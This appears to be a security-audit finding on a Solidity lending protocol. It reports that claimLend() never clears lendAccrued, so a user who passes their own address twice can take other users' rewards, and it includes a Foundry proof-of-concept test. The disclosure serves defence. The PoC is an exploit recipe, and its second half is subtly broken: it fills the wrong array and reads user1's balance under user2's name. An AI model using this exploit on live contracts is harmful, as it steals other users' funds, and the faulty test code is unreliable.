 Loud Tiger Leopard

High

# Not clearing the lendAccrued will cause users to claim more than once

### Summary

Users can claim their accrued LEND rewards multiple times due to a missing state reset in the claimLend() function. After calling grantLendInternal() to transfer LEND tokens, the protocol fails to reset the user's lendAccrued balance to zero, allowing repeated claims of the same rewards.

### Root Cause

https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L400
Getting the `lendAccrued` every time without resetting it will allow the attacker to claim rewards for other users.

### Internal Pre-conditions

N/A

### External Pre-conditions

N/A

### Attack Path

1. User1 and User2 supply tokens using `supply` in `CoreRouter.sol`, for example, 1000 tokens.
2. Now rewards arrive, for example, 0.1 lend token.
3. Each user will now have 0.05 rewards to claim.
4. Now, user1 calls `claimLend` passing his address 2 times in the `holders` parameter.
5. This will allow him to claim the entire reward, which is 0.1 Lend token. When user2 calls claim, he will get nothing since all the rewards have been transferred to user1.

### Impact

A user can claim rewards for other users by calling claimLend multiple times or passing his address multiple times.

### PoC

```solidity
function test_claiming_more() public {
        address lendToken = lendtroller.getLendAddress();
        // Supply different amounts with two users
        uint256 user1Supply = 1000e18;
        uint256 user2Supply = 1000e18;
        (, address lToken) = _supply(user1Supply, user1);
        _supply(user2Supply, user2);


        // Advance time
        vm.warp(block.timestamp + 1 days);
        vm.roll(block.number + 1000);

        // Claim user1 and assert he will get more than he deserve
        address[] memory holders = new address[](2);
        holders[0] = user1;
        holders[1] = user1;
        LToken[] memory lTokenArray = new LToken[](1);
        lTokenArray[0] = LToken(lToken);
        vm.prank(user1);
        coreRouter.claimLend(holders, lTokenArray, false, true);
        uint256 lendAccrued = lendStorage.lendAccrued(user1);
        assertGt(IERC20(lendToken).balanceOf(user1),lendAccrued);

        //checking user2 will get nothing according to his lendAccured
        address[] memory holders_2 = new address[](1);
        holders[0] = user2;
        vm.prank(user2);
        coreRouter.claimLend(holders_2,lTokenArray,false,true);
        uint256 lendAccrued_user2 = lendStorage.lendAccrued(user1);
        assertLt(IERC20(lendToken).balanceOf(user2),lendAccrued_user2);
    }
```

### Mitigation

Clear the `lendAccrued` for every user after claiming their rewards.